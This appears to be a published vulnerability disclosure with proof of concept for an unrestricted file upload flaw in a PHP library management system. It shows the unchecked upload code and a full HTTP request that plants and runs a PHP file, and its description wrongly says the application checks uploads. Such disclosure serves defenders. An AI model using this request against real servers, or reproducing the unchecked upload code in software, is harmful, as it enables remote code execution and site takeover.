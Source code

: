 #### Title: Library Management System with QR code Attendance_File Upload RCE
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.md
#### Description：
#### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which may lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.

#### $uploaddir = 'assets/uploads/';
#### $uploadfile = $uploaddir . basename($_FILES['image']['name']);

#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /LMS/card/index.php HTTP/1.1
Host: localhost
Content-Length: 1056
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryngJP5BxPA6UsA91O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/card/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="name"

File_Upload
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="grade"

Computer Studies
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="dob"

Student
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="address"

Testing Testing
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="email"

ashish@cyberthoth.in
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="exp_date"

1990-02-11
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="id_no"

8529637
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="phone"

1212121212
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="image"; filename="File_upload.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryngJP5BxPA6UsA91O--
```

#### Access below URL:
`http://localhost/LMS/card/assets/uploads/File_upload.php`

![image](https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.png)